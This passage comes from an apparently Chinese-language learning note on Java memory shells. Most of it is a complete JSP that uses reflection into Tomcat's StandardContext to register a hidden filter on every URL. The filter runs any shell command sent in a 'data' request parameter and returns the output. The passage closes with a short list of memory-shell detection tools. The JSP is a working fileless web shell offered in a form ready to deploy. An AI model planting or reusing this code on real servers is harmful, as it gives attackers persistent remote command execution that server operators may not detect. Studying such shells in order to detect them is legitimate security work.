



#### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    // 通过反射获取standardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    String filterName = "h3rmesk1t";
    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    Map filterConfigsMap = (Map) filterConfigs.get(standardContext);

    // 设置恶意的Filter
    if (filterConfigsMap.get(filterName) == null) {
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig config) {
            }

            @Override
            public void destroy() {
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
                HttpServletRequest httpServletRequest = (HttpServletRequest) request;
                HttpServletResponse httpServletResponse = (HttpServletResponse) response;

                if (httpServletRequest.getParameter("data") != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] command = isLinux ? new String[]{"sh", "-c", httpServletRequest.getParameter("data")} : new String[]{"cmd.exe", "/c", httpServletRequest.getParameter("data")};
                    InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    httpServletResponse.getWriter().write(output);
                    httpServletResponse.getWriter().flush();
                    return;
                }
                chain.doFilter(request, response);
            }
        };

        // 反射获取FilterDef, 设置filter名等参数, 调用addFilterDef添加FilterDef
        Class<?> filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor<?> filterDefDeclaredConstructor = filterDef.getDeclaredConstructor();
        filterDefDeclaredConstructor.setAccessible(true);
        FilterDef filterDef1 = (FilterDef) filterDefDeclaredConstructor.newInstance();
        filterDef1.setFilter(filter);
        filterDef1.setFilterName(filterName);
        filterDef1.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef1);

        // 反射获取FilterMap并设置拦截路径, 调用addFilterMapBefore添加FilterMap
        Class<?> filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor<?> filterMapDeclaredConstructor = filterMap.getDeclaredConstructor();
        filterMapDeclaredConstructor.setAccessible(true);
        FilterMap filterMap1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
        filterMap1.addURLPattern("/*");
        filterMap1.setFilterName(filterName);
        filterMap1.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap1);

        // 反射获取ApplicationFilterConfig
        Class<?> applicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> applicationFilterConfigDeclaredConstructor = applicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
        applicationFilterConfigDeclaredConstructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig1 = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef1);

        // 向从StandardContext获取的FilterConfigs中添加恶意的FilterConfig
        filterConfigsMap.put(filterName, applicationFilterConfig1);
        out.println("Filter Inject Successfully...");
    }
%>
```



## Check MemoryShell

​	这里先`mark`几款工具，后续对内存马查杀进行进一步的学习：

- [Arthas](https://github.com/alibaba/arthas)
- [Copagent](https://github.com/LandGrey/copagent)
- [java-memshell-scanner](https://github.com/c0ny1/java-memshell-scanner)
- [shell-analyzer](https://github.com/4ra1n/shell-analyzer)
